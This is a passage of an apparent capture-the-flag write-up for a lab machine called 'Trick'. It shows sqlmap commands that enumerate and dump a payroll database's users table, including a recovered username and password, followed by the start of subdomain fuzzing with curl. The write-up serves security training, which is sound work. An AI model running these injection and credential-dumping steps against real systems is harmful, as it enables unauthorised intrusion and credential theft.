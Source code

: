Next, we get columns from the users table:

```bash
sqlmap -r login -D payroll_db -T users --columns
```

Results:

```
Database: payroll_db
Table: users
[8 columns]
+-----------+--------------+
| Column    | Type         |
+-----------+--------------+
| address   | text         |
| contact   | text         |
| doctor_id | int(30)      |
| id        | int(30)      |
| name      | varchar(200) |
| password  | varchar(200) |
| type      | tinyint(1)   |
| username  | varchar(100) |
+-----------+--------------+
```

And finally we can get usernames and passwords:

```bash
sqlmap -r login -D payroll_db -T users -C username,password --dump
```

Results:

```
Database: payroll_db
Table: users
[1 entry]
+------------+-----------------------+
| username   | password              |
+------------+-----------------------+
| Enemigosss | SuperGucciRainbowCake |
+------------+-----------------------+
```

We can login at http://preprod-payroll.trick.htb and see an administration pannel, but other than information disclosure, we cannot find a vuln to get into the server.


#### DNS fuzzing

Since the subdomain name (http://preprod-payroll.trick.htb/) looks interesting as “payroll” can be replaced with another word, we can consider fuzzing it. Firstly, we will need to figure out the non-existence subdomain query’s error response size. Then we fuzz for a subdomain.

```bash
curl -s -H "Host: nonexistent.trick.htb" https://trick.htb | wc -c
```
